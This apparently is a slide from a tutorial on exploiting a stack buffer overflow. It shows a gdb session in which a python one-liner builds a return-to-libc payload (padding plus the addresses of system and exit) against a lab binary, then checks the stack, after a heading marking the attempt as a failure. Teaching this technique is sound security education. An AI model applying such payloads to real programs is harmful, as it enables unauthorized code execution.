

# Fail!
$ gdb -q --args ./bof $(python -c 'print "A" * 140 + "\x80\xfd\xe3\xf7" + "\xb0\x39\xe3\xf7" + "\x3f\x0a\xf6\xf7" + "\0\0\0\0"')
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) b *0x8048527
Breakpoint 1 at 0x8048527
(gdb) r
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��9?
Breakpoint 1, 0x08048527 in main ()
(gdb) x/20x $esp
0xffffd51c:     0xf7e3fd80      0xf7e339b0      0xffff003f      0xffffd5c4
0xffffd52c:     0x00000000      0x00000000      0x00000000      0xf7fb7000
...
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e3fd80 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e339b0 <exit>
(gdb)